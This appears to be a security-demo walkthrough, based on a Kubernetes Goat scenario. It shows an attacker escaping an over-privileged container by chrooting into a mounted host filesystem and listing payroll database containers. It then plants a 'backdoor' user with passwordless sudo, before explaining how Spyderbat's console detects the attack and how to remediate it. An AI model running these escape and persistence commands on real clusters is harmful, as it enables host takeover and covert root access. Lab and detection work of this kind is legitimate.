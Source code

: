 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. In this demo, we will exploit those extra permissions to escape the container environment and access the host machine. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

In this scenario, the attacker has exploited a vulnerability in an application running in this container, obtaining a shell in the container environment. In theory, this shell should be restricted to only this container environment. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```
```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```

At the top of the mount entries, there is a `/host-system` folder. Running `ls` shows what seems to be the host machine's root directory.

```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission:

```sh
capsh --print | grep chroot
```

This allows us to change our root to act like we are in the mounted host system:

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, and acting as root, which gives us all kinds of access. Depending on the software that is available on the machine, there are a few different exploits we could attempt. We can use the `which` command to test a few different options:

```sh
which PROGRAM
```

<details>
    <summary>If <code>docker</code> is installed</summary>

With Docker, we can see all of the pods that are running on the node:

```sh
docker ps
```

This will likely show many containers; to get a clearer picture, let's filter the output:

```sh
docker ps | grep 'payrolldb'
```

```
f1574caaf944   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...9-ee3f1b0b1188_0
26dd4574d310   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...52467_0
48aa23a10ad4   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-h...1b0b1188_0
fab536699cb3   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-l...0
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If <code>crictl</code> is installed</summary>

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

In the list of pods, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
53544824341d9       7 minutes ago       Ready               payrolldb-b4889ff59-frtgd                    payroll-prod        5                   (default)
b4c2899629bab       7 minutes ago       Ready               payroll-calculator-85c9955696-bqz48          payroll-prod        5                   (default)
ffe96bd760b35       7 minutes ago       Ready               payroll-calculator-85c9955696-kkz7t          payroll-prod        5                   (default)
...
```

Let's look at the containers that are named payrolldb:

```sh
crictl ps --name payrolldb
```
```
CONTAINER           IMAGE                      CREATED             STATE               NAME                ATTEMPT             POD ID              POD
ae76168d27343       mongo@sha256:1a7...060be   8 minutes ago       Running             payrolldb           5                   53544824341d9       payrolldb-b4889ff59-frtgd
ef1a7665382ce       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   e053f9804b343       payrolldb-67d4cf9fd9-vtlc9
060e3cc5e6f72       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   8581f572b57c4       payrolldb-6cd4447758-hzldw
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If neither is installed</summary>

If we don't have the tools we need, that doesn't matter: we have root access. This means we can install anything we need, such as docker:

```sh
apt install docker
```

> **Note:**
> 
> The package installer and package may vary depending on the machine. Try `yum` or `apk` if `apt` isn't available. If the package is not found, try searching for it or updating the package list (`apt update`).

</details>

Let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```

Provide values for the password and name if asked, or hit enter to skip them. Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user or provide some other method of persistent access, such as a Cron job or systemd service.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we investigated all containers running on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags that are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. If the score is abnormally low (under 100), the data has likely not finished coming in yet. Refreshing after a minute should show a much higher score value. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive Bash shell at the top of the container (the shaded box). Underneath, we can see the attacker running some investigation commands, escaping with the `chroot` command, later investigating with `crictl`, and creating persistence with `adduser`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).
